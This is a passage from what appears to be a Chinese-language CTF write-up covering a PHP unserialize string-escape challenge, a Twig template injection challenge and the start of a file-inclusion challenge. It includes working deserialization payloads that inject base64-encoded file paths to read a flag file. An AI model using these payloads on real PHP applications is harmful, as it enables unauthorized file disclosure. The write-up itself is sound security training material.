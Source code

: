 ```php
    highlight_file('index.php');
}else if($function == 'phpinfo'){
    eval('phpinfo();'); //maybe you can find something in here!
}else if($function == 'show_image'){
    $userinfo = unserialize($serialize_info);
    echo file_get_contents(base64_decode($userinfo['img']));
}
```

根据提示查看`phpinfo`，发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/6c891479231e431ab96c39da307fee78.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAZDB1ZA==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
接着审计代码
`extract($_POST);`，允许传递任何参数
`$serialize_info = filter(serialize($_SESSION));`，一看就是有问题的，序列化字符串怎么能随便修改
`echo file_get_contents(base64_decode($userinfo['img']));`，利用`$_SESSION['img']`读取文件

到此其实已经很显然了，post传递参数修改`$_SESSION`，利用它的不安全函数`filter`修改序列化后的字符串，使得修改后的序列化字符串在反序列化后`$_SESSION['img']`的值被控制

构造payload
```html
_SESSION['flagflag']=";s:3:"aaa";s:3:"img";s:20:"ZDBnM19mMWFnLnBocAog";}
```
得到提示
><?php
>
>$flag = 'flag in /d0g3_fllllllag';
>
>?>
构造payload
```html
_SESSION['flagflag']=";s:3:"aaa";s:3:"img";s:20:"L2QwZzNfZmxsbGxsbGFn";}
```
得到flag

# \<BJDCTF2020>Cookie is so stable
打开题目，看着像注入，测试发现确实存在模板注入

但回显的数据是根据客户端发送的cookie确定的。
提交表单后，服务端给客户端重定向并根据表单信息设置cookie，客户端被重定向时会发送刚刚得到的cookie，服务端根据cookie回显数据。但其实这题的重定向只是再次访问了`flag.php`。具体请自行F12查看。
![在这里插入图片描述](https://img-blog.csdnimg.cn/1d86d08be15044fdbbcaee63aca2ff48.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAZDB1ZA==,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)
测试发现是Twig模板，根据网上大量的Twig模板注入payload即可得到flag

# <BSidesCF 2020>Had a bad day
打开题目，发现可疑网址
>index.php?category=woofers

测试参数时发现可能存在后缀为`php`的文件包含
```html
index.php?category=woofers%20a
```
